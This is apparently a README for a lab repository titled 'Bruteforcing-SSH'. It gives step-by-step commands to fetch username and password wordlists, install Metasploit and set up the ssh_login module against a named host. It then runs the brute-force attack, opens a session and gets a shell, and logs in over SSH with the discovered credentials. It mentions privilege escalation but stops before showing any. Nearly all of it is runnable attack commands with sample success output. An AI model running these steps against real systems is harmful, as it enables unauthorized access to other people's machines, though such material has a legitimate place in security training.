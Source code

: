 # Bruteforcing-SSH
========

This is a demo which will exploit SSH on a linux host. Once SSH access is gained, privilege escalation is used to become root. 


Downloading Dictionary Files
------------

First we need some get our hands on some basic text files containing a list of commonly used usernames and passwords. These links are subject to change and for the sake of the lab/demo it might just be easier to clone the git repo with `git clone https://github.com/sillihkram/Bruteforcing-SSH.git`.

Download a list of common users & weak passwords
    
    curl https://github.com/sillihkram/Bruteforcing-SSH/raw/main/passwords.txt.gz | gunzip > /tmp/passwords.txt
    curl https://github.com/sillihkram/Bruteforcing-SSH/raw/main/users.txt > /tmp/users.txt

Just so you are familiar, take at the content and format of the files 

    head /tmp/passwords.txt
    head /tmp/users.txt



# Installing Metasploit
------------

Download the latest version of Metasploit Framework (OSS)

    curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall

Set Permissions 

    chmod 755 msfinstall

 Run the install script

    ./msfinstall

By default metasploit framework installs it's self to `/opt/` let's take a look and add that to our path
    
    ls /opt/
    echo $PATH

Add the `/opt/metasploit-framework/bin/` directory to our path


    PATH=/opt/metasploit-framework/bin/:$PATH


Add Metasploit repo to our system and make sure we have the latest version.

    msfupdate



# Using Metasploit
------------

Launch the metasploit framework console

 
    msfconsole


List the available exploits modules for metasploit


    show exploits

Because there are over 2000 modules it may make more sense to search for one we're looking for
 
    search ssh login

For this demo select the auxiliary/scanner/ssh/ssh_login exploit module

    use auxiliary/scanner/ssh/ssh_login


List the options available for this module

    options

Define options for ssh_login module to launch a brute force attack against a target host

    set stop_on_success
    set pass_file /tmp/password.txt
    set user_file /tmp/users.txt
    set threads 10


Define a target
    
    set rhost graffias.openincite.net

Launch the brute force attack

    exploit

if Metasploit successfully authenitcates with a usr/pass provided in the lists you'll see a message similar to the following:

`[+] 192.168.0.136:22 - Success: 'docker:password'`


Not only did metasploit find a combination that successfully authenticates but it also left a session open. List the open sessions

    sessions

To interact with the open session use the sessions command: `sessions -i <session id>`

    sessions -i 1

Now you are connected to a shell on the target. try typing some basic shell commands

    hostname -f
    uname -a

# Enumerating a Host
------------

connect to the target using the discovered credentials

    ssh graffias.openincite.net -l docker
